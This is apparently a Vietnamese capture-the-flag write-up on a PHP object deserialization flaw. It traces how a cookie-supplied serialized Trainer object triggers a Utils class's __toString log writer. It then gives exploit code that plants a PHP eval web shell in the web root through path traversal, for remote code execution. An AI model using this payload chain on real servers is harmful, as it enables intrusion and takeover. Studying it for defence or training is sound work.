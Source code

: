 xin chào các bạn lại thêm 1 bài nữa sau khi kết thúc đợt tuyển mình đã học được thêm dạng này trên portswigger:<

Bài này là dạng white-box src file là php dạng deseria vul nha

src của file untils:  
![Alt text](image-10.png)
Như đánh giá thì bạn thấy được file này có class Untils
khởi tạo 2 giá trị private là $error và $logfile
ban đầu thì gán $this->logfile = "_error.log";

Trong này có hàm magic của hay gặp trong unserial là 
__toString() sẽ gọi phương thức writelog
hàm này sẽ chạy khi mà có một đối tượng nào đó biến thành string và cụ thể là ở trong file index.php
![Alt text](image-11.png)

+file writelog() sẽ thêm nội dung của $this->error vào file "/tmp/logs/".date('H_i_s').$this->logfile"

có vẻ như là vấn đề đã ở đây ở đây 
lướt qua file trainer.php
![Alt text](image-12.png)

hàm này sẽ khởi tạo các giá trị và các phương thức để lấy giá trị xuất ra từ cookie thông qua xử lý

file index.php 
![Alt text](image-13.png)
khi thực hiện method POST từ form sẽ tạo một đối tượng
   $user = new Trainer($name, $starter);
mình sẽ khai thác ở đây vì đây là giá trị mình có thể kiểm soát được

trong file cham.php chú ú một đoạn đã nhắc ở trên và
![Alt text](image-14.png)
có tác dụng sẽ khi nội dung vào file log

đầu tiên thì khi đổi giá trị isChampion thành 1
thì ta đươc fake-flag

ý tưởng :
    bây giờ sẽ tạo một class Trainer
class Trainer {
    public $name;
    public $starter;
    public $isChampion = 1;
}
và một class Utils vì trong kia fix cứng nên mình sẽ phải thay đổi giá trị của $error và $logfile 
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 

$trainer = new Trainer();
$util = new Utils();
$trainer->name=$util;
$serializedUser = serialize($user);
$base64encod = base64_encode($serializedUser)

Sau đó bạn gắn vào cookie và truy cập vào file nono.php đển remote code nha

Giai thích như sau:

đầu tiên thì gắn cookie vào thi sever nhận và decodeb64 ra sau đó thì unserialize
sẽ tạo ra một object và name thì có dạng: là một object của Utils sever lúc này sẽ ngộ nhận rằng đó là Utils đã định nghĩa và khi này dùng hàm encapse sẽ covert name sang string và thực thi phương thức write_log của Utils
sẽ ghi giá trị của error và0 logfile
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 
Vì eval cũng là một hàm nhạy cảm cho nên sẽ biến đổi nó thành 1 lệnh hay một dòng code ví dụ:
eval("echo "hello";") sẽ in ra hello
và như này ta có hẳn 1 route_page để RCE 
